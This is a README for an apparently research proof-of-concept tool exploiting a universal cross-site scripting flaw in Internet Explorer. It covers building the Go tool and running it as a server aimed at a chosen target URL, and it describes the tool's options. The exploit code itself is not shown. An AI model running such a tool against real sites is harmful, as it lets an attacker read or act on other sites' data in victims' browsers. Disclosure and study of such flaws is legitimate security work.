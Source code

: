 # UXSS PoC

PoC for a [UXSS exploit](https://blog.innerht.ml/ie-uxss/).

## Building

Get Goop if you don't already have it:

    $ go get -u github.com/nitrous-io/goop

Now build:

    $ make

## Running it

    $ bin/uxss -addr 192.169.1.100:8080 -protected_url https://target-url.com/

Now navigate to http://192.169.1.100:8080/ in IE.

### Options:

-addr:
> The address of the web server we will listen on

-protected_url:
> The target URL you want to perform the UXSS on

-use_sleep
> Set to no to use the alert() method of exploitation

## Authors

* [Will Jessop](mailto:will@willj.net)

## LICENSE

See LICENSE.md
